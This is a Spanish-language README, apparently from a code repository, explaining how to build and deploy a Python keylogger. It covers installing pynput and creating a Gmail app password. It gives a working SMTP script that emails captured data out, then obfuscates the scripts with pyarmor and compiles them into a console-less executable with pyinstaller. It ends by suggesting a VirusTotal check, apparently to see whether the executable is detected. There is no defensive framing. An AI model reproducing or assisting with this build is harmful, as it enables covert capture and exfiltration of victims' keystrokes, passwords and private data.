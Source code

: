 # **Keylogger: Guía de Configuración y Uso**

## **1. Requisitos Previos**

### **a. Configuración del Entorno**

1. **Instalar Python**:  
   Asegúrate de tener Python 3.x instalado en tu sistema.  
   Descárgalo desde [python.org](https://www.python.org/downloads/).
2. **Instalar las dependencias necesarias**:  
   Ejecuta el siguiente comando en tu terminal:
   ```bash
   pip install pynput
   ```
### **b. Crear una Clave de Aplicación en Gmail**
- Accede a tu cuenta de Gmail.
- Ve a la página de configuración de contraseñas de aplicación: myaccount.google.com/apppasswords
- Genera una clave de aplicación:
- Selecciona "Correo" como aplicación.
- Selecciona "Equipo personal" como dispositivo.
- Copia la clave generada (por ejemplo: yxki jwbt ebfu khvc).

![Pasted image 20240628130101](https://github.com/user-attachments/assets/88b09cca-fac8-4f1a-893a-319198f6ae93)

⚠️ Importante: No compartas esta clave públicamente y guárdala de forma segura.

## **2. Crear el Script del Keylogger**
### **a. Archivos Requeridos**
Crea los siguientes archivos con el código proporcionado:

- Archivo: main.py
- Archivo: keylogger.py

### **b. Clave de aplicación**
La parte del script donde añadir los datos de envió del mail están en esta parte, y no te olvides de importar las librerías!!!
```python
import smtplib
from email.mime.text import MIMEText

subject = "Email Subject"
body = "This is the body of the text message"
sender = "sender@gmail.com"  #Sender Email Address
recipients = ["recipient1@gmail.com", "recipient2@gmail.com"]  # Multiple email address can be given
password = "password" # Gmail Application Password

# We will create a function to send mail .We will pass above values in funcion parameter.
def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)   # Creating msg object using MIMEText class of email module
    msg['Subject'] = subject  # Assigning the subject
    msg['From'] = sender  # Assigning the sender email address
    msg['To'] = ', '.join(recipients)  # Assigning recepients email address.
    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:   # Creating connection using context manager
       smtp_server.login(sender, password)
       smtp_server.sendmail(sender, recipients, msg.as_string())
    print("Email sent Successfully!")


# We will call the function and pass the parameter values defined in line no 4 to 8.
send_email(subject, body, sender, recipients, password)
```
## **3. Ofuscar el Código**
Ejecuta los siguientes comandos para ofuscar los scripts:
```python
pyarmor gen keylogger.py
pyarmor gen main.py
```
![Pasted image 20241204191457](https://github.com/user-attachments/assets/efd58f8e-b7cc-419b-b7c8-a24d85e9aa7f)

## **4. Compilar**
Usa pyinstaller para generar un ejecutable:
```python
pyinstaller --onefile --noconsole --add-data "dist/keylogger.py;." --hidden-import=pynput.keyboard --hidden-import=smtplib --hidden-import=termcolor --hidden-import=socket --hidden-import=os --hidden-import=email.mime --hidden-import=email.mime.text dist/main.py
```
![Pasted image 20241204191801](https://github.com/user-attachments/assets/e6a870b2-bc81-4ba5-b413-39a2a56b7f9e)

## **4. Resultado Final**
1. **Ejecutables Generados**
Una vez compilado, tendrás un archivo ejecutable en la carpeta dist.
El resultado se verá del siguiente modo:
![Pasted image 20241204192049](https://github.com/user-attachments/assets/01054c9d-8156-4a8f-a3ce-c25776f76ae5)

![Pasted image 20241204192321](https://github.com/user-attachments/assets/9c26ce4b-25a5-43aa-8e65-681894fde7b5)

3. **Análisis en Virus Total**
Puedes analizar el ejecutable en Virus Total para comprobar su estado.
![Pasted image 20241204192640](https://github.com/user-attachments/assets/16ce5656-e36b-4ed4-b355-19718fb753f6)




